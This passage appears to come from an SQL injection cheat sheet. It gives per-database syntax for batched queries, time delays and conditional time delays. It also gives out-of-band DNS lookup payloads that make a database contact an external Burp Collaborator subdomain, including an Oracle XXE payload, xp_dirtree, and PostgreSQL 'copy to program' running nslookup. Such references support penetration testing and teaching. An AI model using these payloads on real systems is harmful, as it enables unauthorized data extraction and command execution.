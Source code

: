 | DBMS | Syntax |
|---|---|
| Oracle | Does not support batched queries. |
| Microsoft | QUERY-1-HERE; QUERY-2-HERE |
| PostgreSQL | QUERY-1-HERE; QUERY-2-HERE |
| MySQL | QUERY-1-HERE; QUERY-2-HERE |

Note:
With MySQL, batched queries typically cannot be used for SQL injection. However, this is occasionally possible if the target application uses certain PHP or Python APIs to communicate with a MySQL database. 

## Time delays

| DBMS | Syntax |
|---|---|
| Oracle | dbms_pipe.receive_message(('a'),10) |
| Microsoft | WAITFOR DELAY '0:0:10' |
| PostgreSQL | SELECT pg_sleep(10) |
| MySQL | SELECT sleep(10) |

## Conditional time delays

| DBMS | Syntax |
|---|---|
| Oracle | SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN 'a'||dbms_pipe.receive_message(('a'),10) ELSE NULL END FROM dual |
| Microsoft | IF (YOUR-CONDITION-HERE) WAITFOR DELAY '0:0:10' |
| PostgreSQL | SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN pg_sleep(10) ELSE pg_sleep(0) END |
| MySQL | SELECT IF(YOUR-CONDITION-HERE,sleep(10),'a') |

## DNS lookup

You can cause the database to perform a DNS lookup to an external domain. To do this, you will need to use Burp Collaborator client to generate a unique Burp Collaborator subdomain that you will use in your attack, and then poll the Collaborator server to confirm that a DNS lookup occurred. 

| DBMS | Syntax |
|---|---|
| Oracle | The following technique leverages an XML external entity (XXE) vulnerability to trigger a DNS lookup. The vulnerability has been patched but there are many unpatched Oracle installations in existence: SELECT extractvalue(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY % remote SYSTEM "http://YOUR-SUBDOMAIN-HERE.burpcollaborator.net/"> %remote;]>'),'/l') FROM dual |
| | The following technique works on fully patched Oracle installations, but requires elevated privileges: SELECT UTL_INADDR.get_host_address('YOUR-SUBDOMAIN-HERE.burpcollaborator.net') |
| Microsoft | exec master..xp_dirtree '//YOUR-SUBDOMAIN-HERE.burpcollaborator.net/a' |
| PostgreSQL | copy (SELECT '') to program 'nslookup YOUR-SUBDOMAIN-HERE.burpcollaborator.net' |
| MySQL | The following techniques work on Windows only: \nLOAD_FILE('\\\\\\\\YOUR-SUBDOMAIN-HERE.burpcollaborator.net\\a') \nSELECT ... INTO OUTFILE '\\\\\\\\YOUR-SUBDOMAIN-HERE.burpcollaborator.net\\a' |
